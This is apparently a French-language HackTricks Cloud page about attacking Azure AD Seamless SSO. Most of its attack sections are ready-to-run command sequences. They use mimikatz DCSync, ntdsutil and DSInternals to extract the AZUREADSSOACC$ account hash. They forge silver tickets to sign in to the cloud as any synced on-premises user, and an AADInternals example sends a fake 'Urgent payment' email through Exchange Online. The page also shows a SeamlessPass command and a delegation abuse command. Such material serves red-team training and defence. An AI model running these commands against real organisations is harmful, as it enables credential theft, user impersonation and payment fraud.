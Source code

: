 # Az - SSO Transparent

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

[Dans la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **connecte automatiquement les utilisateurs lorsqu'ils sont sur leurs appareils d'entreprise** connectés à votre réseau d'entreprise. Lorsqu'il est activé, **les utilisateurs n'ont pas besoin de taper leurs mots de passe pour se connecter à Azure AD**, et généralement, même de taper leurs noms d'utilisateur. Cette fonctionnalité offre à vos utilisateurs un accès facile à vos applications basées sur le cloud sans nécessiter de composants supplémentaires sur site.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Fondamentalement, Azure AD Seamless SSO **connecte les utilisateurs** lorsqu'ils sont **sur un PC joint à un domaine sur site**.

Il est pris en charge à la fois par [**PHS (Synchronisation de hachage de mot de passe)**](phs-password-hash-sync.md) et [**PTA (Authentification par passage)**](pta-pass-through-authentication.md).

Le SSO de bureau utilise **Kerberos** pour l'authentification. Lorsqu'il est configuré, Azure AD Connect crée un **compte d'ordinateur appelé AZUREADSSOACC`$`** dans l'AD sur site. Le mot de passe du compte `AZUREADSSOACC$` est **envoyé en texte clair à Azure AD** lors de la configuration.

Les **tickets Kerberos** sont **chiffrés** en utilisant le **NTHash (MD4)** du mot de passe et Azure AD utilise le mot de passe envoyé pour déchiffrer les tickets.

**Azure AD** expose un **point de terminaison** (https://autologon.microsoftazuread-sso.com) qui accepte les **tickets** Kerberos. Le navigateur de la machine jointe au domaine transmet les tickets à ce point de terminaison pour le SSO.

### Sur site -> cloud

Le **mot de passe** de l'utilisateur **`AZUREADSSOACC$` ne change jamais**. Par conséquent, un administrateur de domaine pourrait compromettre le **hachage de ce compte**, puis l'utiliser pour **créer des tickets argentés** pour se connecter à Azure avec **n'importe quel utilisateur sur site synchronisé** :
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Avec le hash, vous pouvez maintenant **générer des tickets argent** :
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Pour utiliser le ticket argent, les étapes suivantes doivent être exécutées :

1. **Lancer le Navigateur :** Mozilla Firefox doit être lancé.
2. **Configurer le Navigateur :**
* Naviguez vers **`about:config`**.
* Définissez la préférence pour [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) aux [valeurs](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) spécifiées :
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Accéder à l'Application Web :**
* Visitez une application web qui est intégrée au domaine AAD de l'organisation. Un exemple courant est [Office 365](https://portal.office.com/).
4. **Processus d'Authentification :**
* À l'écran de connexion, le nom d'utilisateur doit être saisi, en laissant le champ du mot de passe vide.
* Pour continuer, appuyez sur TAB ou ENTER.

{% hint style="success" %}
Cela ne contourne pas MFA si activé
{% endhint %}

#### Option 2 sans dcsync - SeamlessPass

Il est également possible d'effectuer cette attaque **sans une attaque dcsync** pour être plus furtif comme [expliqué dans cet article de blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Pour cela, vous avez seulement besoin de l'un des éléments suivants :

* **Un TGT d'utilisateur compromis :** Même si vous n'en avez pas, mais que l'utilisateur a été compromis, vous pouvez en obtenir un en utilisant le truc de délégation de faux TGT implémenté dans de nombreux outils tels que [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) et [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket** : Si vous avez la clé KRBTGT, vous pouvez créer le TGT dont vous avez besoin pour l'utilisateur attaqué.
* **Le hash NTLM ou la clé AES d'un utilisateur compromis :** SeamlessPass communiquera avec le contrôleur de domaine avec ces informations pour générer le TGT.
* **Le hash NTLM ou la clé AES du compte AZUREADSSOACC$ :** Avec ces informations et l'Identifiant de Sécurité (SID) de l'utilisateur à attaquer, il est possible de créer un ticket de service et de s'authentifier avec le cloud (comme effectué dans la méthode précédente).

Enfin, avec le TGT, il est possible d'utiliser l'outil [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) avec :

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Des informations supplémentaires pour configurer Firefox afin de fonctionner avec SSO transparent peuvent être [**trouvées dans cet article de blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Création de tickets Kerberos pour les utilisateurs uniquement cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si les administrateurs Active Directory ont accès à Azure AD Connect, ils peuvent **définir le SID pour tout utilisateur cloud**. De cette manière, des **tickets** Kerberos peuvent être **créés également pour les utilisateurs uniquement cloud**. La seule exigence est que le SID soit un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) approprié.

{% hint style="danger" %}
Changer le SID des utilisateurs administrateurs uniquement cloud est maintenant **bloqué par Microsoft**.\
Pour plus d'infos, consultez [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### Sur site -> Cloud via Délégation Contraignante Basée sur les Ressources <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Quiconque peut gérer des comptes d'ordinateur (`AZUREADSSOACC$`) dans le conteneur ou l'OU où se trouve ce compte peut **configurer une délégation contrainte basée sur les ressources sur le compte et y accéder**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Je suis dans votre cloud, lisant les e-mails de tout le monde - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
